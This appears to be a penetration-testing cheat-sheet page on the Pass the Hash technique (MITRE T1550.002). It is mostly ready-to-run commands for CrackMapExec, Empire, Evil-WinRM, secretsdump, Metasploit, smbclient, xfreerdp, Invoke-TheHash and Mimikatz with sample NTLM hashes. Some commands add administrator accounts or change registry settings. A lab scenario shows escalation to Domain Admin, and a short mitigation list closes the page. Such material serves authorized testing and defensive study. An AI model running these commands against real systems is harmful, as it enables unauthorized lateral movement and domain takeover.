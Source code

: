 description: https://attack.mitre.org/techniques/T1550/002/

# Pass The Hash

**ATT\&CK ID:** [T1550.002](https://attack.mitre.org/techniques/T1550/002/)

**Permissions Required:** <mark style="color:green;">**Valid account hash**</mark>

#### Description

Adversaries may "pass the hash" using stolen password hashes to move laterally within an environment, bypassing normal system access controls. Pass the hash (PtH) is a method of authenticating as a user without having access to the user's clear text password. This method bypasses standard authentication steps that require a clear text password, moving directly into the portion of the authentication that uses the password hash.

When performing PtH, valid password hashes for the account being used are captured using a Credential Access technique. Captured hashes are used with PtH to authenticate as that user. Once authenticated, PtH may be used to perform actions on local or remote systems.

Adversaries may also use stolen password hashes to "overpass the hash." Similar to PtH, this involves using a password hash to authenticate as a user but also uses the password hash to create a valid Kerberos ticket. This ticket can then be used to perform Pass the Ticket attacks.

[\[Source\]](https://attack.mitre.org/techniques/T1550/002/)

## Techniques (Linux)

### Crackmapexec

```bash
crackmapexec smb <IP> -u <User> -H <NTLM>
crackmapexec smb '10.10.10.100' -u 'moe' -H '58a478135a93ac3bf058a5ea0e8fdb71'

# local account login
crackmapexec smb <IP> -u <User> -H <NTLM> --local-auth
crackmapexec smb '10.10.10.100' -u 'moe' -H '58a478135a93ac3bf058a5ea0e8fdb71' --local-auth
```

![](../../../Assets/Pasted%20image%2020250619215540.png)

### Empire

```bash
usemodule lateral_movement/invoke_smbexec

# Parameters
(Empire: usemodule/powershell/lateral_movement/invoke_smbexec) > set ComputerName '10.10.10.100'
(Empire: usemodule/powershell/lateral_movement/invoke_smbexec) > set Domain security.local
(Empire: usemodule/powershell/lateral_movement/invoke_smbexec) > set Listener http
(Empire: usemodule/powershell/lateral_movement/invoke_smbexec) > set Hash 58a478135a93ac3bf058a5ea0e8fdb71
(Empire: usemodule/powershell/lateral_movement/invoke_smbexec) > set Username moe
(Empire: usemodule/powershell/lateral_movement/invoke_smbexec) > execute
```

![](../../../Assets/Pasted%20image%2020250619215550.png)

### Evil-WinRM

```bash
evil-winrm -i <IP> -u <User> -H <NThash>
evil-winrm -i '10.10.10.100' -u 'moe' -H '58a478135a93ac3bf058a5ea0e8fdb71'
```

![](../../../Assets/Pasted%20image%2020250619215558.png)

### LDAP

```bash
secretsdump.py <User>@<IP> -hashes <Hash>
secretsdump.py moe@10.10.10.100 -hashes aad321b35b51404eeaad982b5b51404ee:b38ff50264b7458734d82c69794a4d8
```

![](../../../Assets/Pasted%20image%2020250619215610.png)

### Metasploit

```bash
use exploit/windows/smb/psexec

# Set hash as password
set smbpass "aad3b435b51404eeaad3b435b51404ee:58a478135a93ac3bf058a5ea0e8fdb71"
```

![](../../../Assets/Pasted%20image%2020250619215617.png)

### Smbclient

```bash
smbclient //<IP>/<Share> -U <User> --pw-nt-hash <Hash> -W <Domain>
smbclient '//10.0.0.100/IT' -U 'moe' --pw-nt-hash '58a478135a93ac3bf058a5ea0e8fdb71' -W 'security.local'
```

### xFreeRDP

This method requires "Restricted Admin Mode" enabled on the target system.

```bash
xfreerdp /v:10.10.10.100 /u:moe /pth:58a478135a93ac3bf058a5ea0e8fdb71
```

```bash
# Enable restricted admin mode, requires elevated permissions.
crackmapexec smb '10.10.10.100' -u 'moe' -H '58a478135a93ac3bf058a5ea0e8fdb71' -x 'reg add HKLM\System\CurrentControlSet\Control\Lsa /t REG_DWORD /v DisableRestrictedAdmin /d 0x0 /f'
```

## Techniques (Windows)

### Invoke-TheHash

```powershell
# SMB Options
# Check SMB signing
Invoke-TheHash -Type SMBExec -Target '[IP]'
Invoke-TheHash -Type SMBExec -Target [CIDR]

# Check for command execution 
Invoke-TheHash -Type SMBExec -Username [Username]@[Domain] -Hash '[NTLM-Hash]' -Target '[IP]'
Invoke-TheHash -Type SMBExec -Username [Username]@[Domain] -Hash '[NTLM-Hash]' -Target [CIDR]

# Pass hash to target and execute specified command 
Invoke-TheHash -Type SMBExec -Command "net user /add Pentest Password123 && netlocal group Administrators /add Pentest" -Username [Username]@[Domain] -Hash '[NTLM-Hash]' -Target '[IP]' 
Invoke-TheHash -Type SMBExec -Command "net user /add Pentest Password123 && netlocal group Administrators /add Pentest" -Username [Username]@[Domain] -Hash '[NTLM-Hash]' -Target [CIDR]

 # Enumerate SMB Shares / Users / Net Sessions 
Invoke-SMBEnum -Username [Username]@[Domain] -Hash '[NTLM-Hash]' -Target '[IP]'
Invoke-SMBEnum -Username [Username]@[Domain] -Hash '[NTLM-Hash]' -Target [CIDR]

# WMI Options
# Check for command execution (WMI)
Invoke-TheHash -Type WMIExec -Username '[Username]' -Hash '[NTLM-Hash]' -Target '[IP]'
Invoke-TheHash -Type WMIExec -Username '[Username]' -Hash '[NTLM-Hash]' -Target [CIDR]

 # Pass hash to target and execute specified command (WMI)
Invoke-TheHash -Type WMIExec -Command "net user /add Pentest Password123 && netlocal group Administrators /add Pentest" -Username [Username]@[Domain] -Hash '[NTLM-Hash]' -Target '[IP]'
Invoke-TheHash -Type WMIExec -Command "net user /add Pentest Password123 && netlocal group Administrators /add Pentest" -Username [Username]@[Domain] -Hash '[NTLM-Hash]' -Target [CIDR]

```

### Mimikatz

```bash
Invoke-Mimikatz -Command '"sekurlsa::pth /user:<User> /domain:<Domain> /ntlm:<NTLM> /run:powershell.exe"'
Invoke-Mimikatz -Command '"sekurlsa::pth /user:Moe /domain:Security.local /ntlm:58a478135a93ac3bf058a5ea0e8fdb71 /run:powershell.exe"'
```

## Scenario

In the following scenario we have compromised a Windows 2019 member server SRV01.Security.local and escalated privileges to the local administrator account. We then dumped credentials from LSASS memory using `Mimikatz` and have obtained the NTLM password hash for the Domain Administrator "Moe".

#### LSASS Memory Credential Dumping

We are working as the local administrator on SRV01 so we are unable to perform administrative function on the Domain.

As we have the NTLM hash for the Domain Administrator "Moe" we are able to use Mimikatz to Pass-The-Hash to a new process such as PowerShell.

By doing so we are able to then use the newly spawned PowerShell process to perform domain administrative functions.

Under our local administrator account and as expected, we are unable to create a new domain user.

![](../../../Assets/Pasted%20image%2020250619215721.png)

Next we Pass-The-Hash for the Domain Administrator Moe:

```powershell
Invoke-Mimikatz -Command '"sekurlsa::pth /user:Moe /domain:Security.local /ntlm:58a478135a93ac3bf058a5ea0e8fdb71 /run:powershell.exe"'
```

![](../../../Assets/Pasted%20image%2020250619215736.png)

Which opens a new PowerShell process for us. Where, we still notice we are running as the local administrator on the member server SRV01 however, we now have the ability to work as the Domain Administrator Moe and create a new domain user and add them to the "Domain Admins" group.

![](../../../Assets/Pasted%20image%2020250619215745.png)

## Mitigation

* Enable Windows Credential Guard
* Deploy Microsoft LAPS
* Disable LM/NTLM authentication in the environment
* Reduce amount of cached logon passwords stored
* Limit administrative users in the domain / locally.

### Further Reading

**Mitigating Pass-the-Hash (PtH) Attacks and Other Credential Theft Techniques v2:** [Download](https://download.microsoft.com/download/7/7/A/77ABC5BD-8320-41AF-863C-6ECFB10CB4B9/Mitigating-Pass-the-Hash-Attacks-and-Other-Credential-Theft-Version-2.pdf)